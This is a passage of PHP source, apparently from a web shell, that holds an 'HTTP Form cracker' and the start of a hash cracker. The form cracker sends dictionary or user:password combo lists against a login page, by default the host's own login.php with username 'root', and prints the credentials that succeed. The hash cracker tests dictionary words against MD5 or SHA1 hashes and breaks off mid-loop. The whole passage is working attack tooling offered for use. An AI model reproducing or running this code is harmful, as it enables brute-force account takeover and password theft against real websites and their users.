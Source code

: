 $fail=$_REQUEST['fail'];
$dic=$_REQUEST['dictionary'];
$type=$_REQUEST['combo'];
$user=(!empty($_REQUEST['user']))?$_REQUEST['user']:"";
if(!file_exists($dic)) die("$errorbox Can not open dictionary.$et$footer");
$dictionary=fopen($dic,'r');
echo "&lt;font color=blue&gt;Cracking started...&lt;br&gt;";
while(!feof($dictionary)){
if($type){
$combo=trim(fgets($dictionary)," \n\r");
$user=substr($combo,0,strpos($combo,':'));
$pass=substr($combo,strpos($combo,':')+1);
}else{
$pass=trim(fgets($dictionary)," \n\r");
}
$url.="?$uf=$user&$pf=$pass&$sf=$sv";
$res=check_urL($url,$method,$fail,12);
if (!$res){echo "&lt;font color=blue&gt;U: $user P: $pass&lt;/font&gt;&lt;br&gt;";flusheR();if(!$type)break;}
flusheR();
}
fclose($dictionary);
echo "Done!&lt;/font&gt;&lt;br&gt;";
}
else echo "&lt;center&gt;&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"434\"&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#333333\"&gt;HTTP Form cracker:&lt;/td&gt;&lt;td bgcolor=\"#333333\" width=\"253\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=\"POST\" name=form&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#666666\"&gt;Dictionary:&lt;/td&gt;&lt;td bgcolor=\"#666666\" width=\"253\"&gt;&lt;input type=text name=dictionary size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#808080\"&gt;Dictionary type:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=radio name=combo checked value=0 onClick=\"document.form.user.disabled = false;\" style=\"border-width:1px;background-color:#808080;\"&gt;Simple (P)&lt;input type=radio value=1 name=combo onClick=\"document.form.user.disabled = true;\" style=\"border-width:1px;background-color:#808080;\"&gt;Combo (U:P)&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#666666\"&gt;Username:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input type=text size=35 value=root name=user&gt;$hcwd&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#808080\"&gt;Action Page:&lt;/td&gt;&lt;td bgcolor=\"#808080\" width=\"253\"&gt;&lt;input type=text name=target value=\"http://".getenv('HTTP_HOST')."/login.php\" size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#666666\"&gt;Method:&lt;/td&gt;&lt;td bgcolor=\"#666666\" width=\"253\"&gt;&lt;select size=\"1\" name=\"method\"&gt;&lt;option selected value=\"POST\"&gt;POST&lt;/option&gt;&lt;option value=\"GET\"&gt;GET&lt;/option&gt;&lt;/select&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#808080\"&gt;Username field name:&lt;/td&gt;&lt;td bgcolor=\"#808080\" width=\"253\"&gt;&lt;input type=text name=userf value=user size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#666666\"&gt;Password field name:&lt;/td&gt;&lt;td bgcolor=\"#666666\" width=\"253\"&gt;&lt;input type=text name=passf value=passwd size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#808080\"&gt;Submit name:&lt;/td&gt;&lt;td bgcolor=\"#808080\" width=\"253\"&gt;&lt;input type=text value=login name=submitf size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#666666\"&gt;Submit value:&lt;/td&gt;&lt;td bgcolor=\"#666666\" width=\"253\"&gt;&lt;input type=text value=\"Login\" name=submitv size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#808080\"&gt;Fail string:&lt;/td&gt;&lt;td bgcolor=\"#808080\" width=\"253\"&gt;&lt;input type=text name=fail value=\"Try again\" size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"174\" bgcolor=\"#666666\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#666666\" align=right width=\"253\"&gt;&lt;input class=buttons type=submit name=start value=Start&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;";
}
function hashcrackeR(){
global $errorbox,$t,$et,$hcwd;
if (!empty($_REQUEST['hash']) && !empty($_REQUEST['dictionary']) && !empty($_REQUEST['type'])){
$dictionary=fopen($_REQUEST['dictionary'],'r');
if ($dictionary){
$hash=strtoupper($_REQUEST['hash']);
echo "&lt;font color=blue&gt;Cracking " . htmlspecialchars($hash)."...&lt;br&gt;";flusheR();
$type=($_REQUEST['type']=='MD5')?'md5':'sha1';
while(!feof($dictionary)){